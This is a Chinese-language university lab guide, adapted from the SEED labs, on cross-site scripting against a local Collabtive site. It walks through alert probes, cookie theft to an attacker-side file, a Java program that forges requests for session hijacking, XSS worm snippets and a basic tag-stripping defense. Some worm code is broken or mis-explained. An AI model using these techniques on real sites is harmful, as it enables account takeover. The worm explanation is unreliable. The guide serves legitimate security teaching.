# 第 1 节 Collabtive 系统跨站脚本攻击实验

## 实验简介

**系统用户名 seed，密码 dees**

跨站点脚本(XSS)是一种常见较弱的 web 应用程序漏洞,攻击者使用这个漏洞注入恶意代码(例如 JavaScript)来攻击受害者的 web 浏览器。

使用恶意代码,攻击者可以轻松窃取受害者的凭证,例如 cookies 的访问控制政策(例如：IE 同源策略)受雇于浏览器可以保护这些凭证绕过 XSS 漏洞，利用这种漏洞可能会导致大规模的攻击。

## 预备知识

### 1、什么是 XSS

XSS(Cross Site Scripting)：跨站脚本攻击，它与 SQL 注入攻击类似，SQL 注入攻击中以 SQL 语句作为用户输入，从而达到查询/修改/删除数据的目的；而在 xss 攻击中，恶意攻击者往 Web 页面里插入恶意 html 代码，当用户浏览该页之时，嵌入其中 Web 里面的 html 代码会被执行，从而达到恶意攻击用户的特殊目的。

### 2、XSS 分类

主体分为 2 类：

1、来自内部：主要利用程序自身的漏洞，构造跨站语句；

2、来自外部：自己构造 XSS 跨站漏洞页面，然后诱惑管理员来点，从而获得我们想要的信息；

这里给一篇文章：[科普](http://www.cnblogs.com/AngelLee2009/archive/2011/10/24/2223031.html)

### 3、XSS 危害

>1.盗取各类用户账户，如机器登录账号、用户网银账号、各类管理员账号；

>2.控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力；

>3.盗窃企业重要的具有商业价值的资料；

>4.非法转账；

>5.强制发送电子邮件；

>6.控制受害者机器向其他网站发起攻击

### 4、什么是 Cookie

某些网站为了辨别用户身份、进行 session 跟踪而储存在用户本地终端上的数据（通常经过加密）；

### 5、环境搭建

配置 DNS：

```
 sudo vim /etc/hosts 
```



配置网站文件：

```
 sudo vim /etc/apache2/conf.d/lab.conf 
```



启动服务：

```
 sudo service apache2 start
    sudo mysqld_safe 
```

访问测试

>用户名：**admin**；密码：**admin**



## 实验内容

### lab1 通过弹窗显示恶意信息

step1：新建一个 js.html 文件，获取弹框；弹框的目的是为了验证是否存在 xss 漏洞；

```
 cd /var/www/XSS/Collabtive/
    sudo vim js.html 
```



访问测试：



step2：通过 html 调用 js 来获取弹框；这么做是为了有的时候，受害网站不允许直接写 js 代码，这个时候我们可以通过调用来检验是否存在 xss 漏洞 新建 myscript.js 文件：

```
 sudo vim myscript.js 
```



这里要说明一下，当我们调用 js 文件的时候，js 文件中不需要写`<script></script>`标签；

新建 include.html 文件，调用 js，验证 xss 漏洞是否存在：

```
 sudo vim include.html 
```



访问测试：



### lab2 恶意显示 Cookie

弹框仅仅是为了验证是否存在 xss 漏洞，并没有什么利用价值，而 JavaScript 中可以用函数来获取 cookie，接下来就是使用 JavaScript 获取 cookie 来进一步利用；

step1：在`/var/www/XSS/Collabtive/manageuser.php`文件中添加一行，用来显示 Cookie。当用户去访问这个页面的时候，就会显示当前的 Cookie：

```
 sudo vim manageuser.php 
```



添加的这一行的功能就是以弹窗的形式显示用户的 Cookie；

>效果：弹出来的就是我们当前用户的 Cookie，我们可以使用 httpliveHeader 来抓取验证；



### lab3 窃取受害者的 Cookie

lab2 的情况局限于获取自己的 Cookie，当然我们不需要自己的 Cookie，我们需要在不登陆的情况下，获取其他用户的 Cookie，这样我们就可以使用 cookie 直接登录别人的账号；

首先构造我们的攻击页面 hack.php：

```
 sudo vim hack.php 
```



上面是获取 cookie 的代码，同时我们需要一个文件来接受 cookie；在与 hack.php 文件同目录下新建一个 cookie.txt 用来接收 cookie 值；而且这个文件需要有写入权限；



然后我们在 manageuser.php 页面新增这样的语句，当用户访问这个页面时，用户就会把 cookie 发送到我们攻击者的手里：



受害者访问 www.xsslabcollabtive.com/manageuser.php 页面：



这个时候，攻击者在 cookie.txt 文件里面就获取了受害者的 Cookie：



### lab4 使用获取的 Cookie 进行会话劫持

当获取了受害者的 Cookie 以后，我们可以干嘛呢？可以利用 Cookie 登录用户，也就是会话劫持；

>会话劫持：窃取受害者的 cookie 后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者创建一个新项目,发帖子,删除等等。从本质上讲, 就是劫持受害者的会话。

首先：我们查看受害者创建项目时候的请求：



当攻击者知道了创建项目的请求以后，就可以编写一个 Java 程序发送相同的 HTTP 请求达到创建项目的目的，当然还可以进行其他的请求：

>HTTP 访问请求：

>1、打开一个连接到 web 服务器。

>2、设置必要的 HTTP 头信息。

>3、发送请求到 web 服务器。

>4、得到来自 web 服务器的响应。

```
 import java.io.*;
    import java.net.*;
    public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    // URL to be forged.
    URL url = new URL ("http://www.xsslabcollabtive/admin.php?action=addpro");
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    URLConnection urlConn = url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
    //HTTP Post Data which includes the information to be sent to the server.
    String data="name=test&desc=test...&assignto[]=...&assignme=1";
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println("Response Code = " + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK) {
    Laboratory for Computer Security Education 6
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
    }
    }
    }
    } catch (MalformedURLException e) {
    e.printStackTrace();
    }
    }
    } 
```

### lab5 XSS 蠕虫

#### xss 蠕虫 cross site scripting worm

是一种跨站脚本病毒， 通常由脚本语言 Javascript 写成， 它借由网站访问者传播。由于 XSS 蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染；

#### XSS 蠕虫的危害

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施 DDoS 攻击等等等。

#### XSS 蠕虫的学习

首先我么需要理解一下 Ajax 框架。框架代码如下：

```
 var Ajax=null;
    // 构建 http 请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabcollabtive.com/manageuser.php?action=edit",true);
    Ajax.setRequestHeader("Host","www.xsslabcollabtive.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建 http 请求内容。 内容的格式可以从浏览器插件 LiveHTTPHeaders 中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送 http POST 请求。
    Ajax.send(content); 
```

我们创建一个 test.js 的文件；这个文件中是上面的 Ajax 框架：

```
 sudo vim test.js 
```



然后我们在创建一个 test1.js 的文件，写一个 xss 蠕虫代码：

```
 sudo vim test1.js 
```



这里是代码：

```
 var on=new Ajax.PeriodicalUpdater("onlinelist",
    "manageuser.php?action=onlinelist",
    //定义一个新的 Ajax.PeriodicalUpdater
    {method:’get’,onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为 get，频率为 1000 
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的 xss 蠕虫病毒，下面这段代码是蠕虫可以自动传播：

```
 <script id=worm>//定义 js 的 id 为 worm
    var strCode = document.getElementById("worm");
    //找到元素 id
    alert(strCode.innerHTML);
    </script> 
```

代码中使用循环体，从而达到自动传播的目的。

在实验机中这样创建 xss 蠕虫：

```
sudo vim xss_worm.js 
```



```
 var strCode = document.getElementByld("worm");
    alert(strCode.innerHTML); 
```

然后用一个 html 文件调用蠕虫：

```
sudo vim worm.html 
```



```
 <script type='text/javascript' src='http://www.xsslabcollabtive.com/xss_worm.js'></script> 
```

#### 科普

>XSS worm 攻击原理剖析[`book.51cto.com/art/201311/419361.htm`](http://book.51cto.com/art/201311/419361.htm "XSS worm 攻击原理剖析")

>XSS worm 剖析 [`book.51cto.com/art/201311/419362.htm`](http://book.51cto.com/art/201311/419362.htm "XSS Worm 剖析")

>XSS worm 案例 [`www.wooyun.org/bugs/wooyun-2013-017701`](http://www.wooyun.org/bugs/wooyun-2013-017701 "点评网主站漏洞打包详解+手把手教你写 xss 蠕虫")

### lab6 XSS 防御

简易代码防御 xss 漏洞：

```
sudo vim inittucntions.php 
```





**为什么**

首先你需要了解`strip_only_tags()`这个函数：`strip_only_tags()`([科普](http://www.w3school.com.cn/php/func_string_strip_tags.asp))这个函数它让攻击者输入的 html 标记语言都消失了当然就不能受到直接攻击了。但是这样子是完全不能够防御聪明的黑客的，他可以通过字符构造来达到攻击的目的。如何更好的防御 xss 攻击，请参考科普里面的几篇文献。

### 科普

如果你想更多的了解相关的 XSS 知识,可以去阅读**《XSS 跨站脚本攻击剖析与防御》**。

## 作业

你需要提交一份详细的实验报告，描述你所做的和你所观察到的。

使用的 LiveHTTPHeaders 或 Wireshark 的截图。

您还可以提供有趣的或者令人惊讶的观察。

## license

本实验所涉及的实验环境来自[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)，并在此基础上为适配实验室我那工作环境进行修改，修改后的实验文档仍然遵循 GUN Free Documentation License 附[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)版权说明：

Copyright c 2006 - 2011 Wenliang Du, Syracuse University. The development of this document is/was funded by three grants from the US National Science Foundation: Awards No. 0231122 and 0618680 from TUES/CCLI and Award No. 1017771 from Trustworthy Computing. Permission is granted to copy, distribute and/or modify this document under the terms of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software Foundation. A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.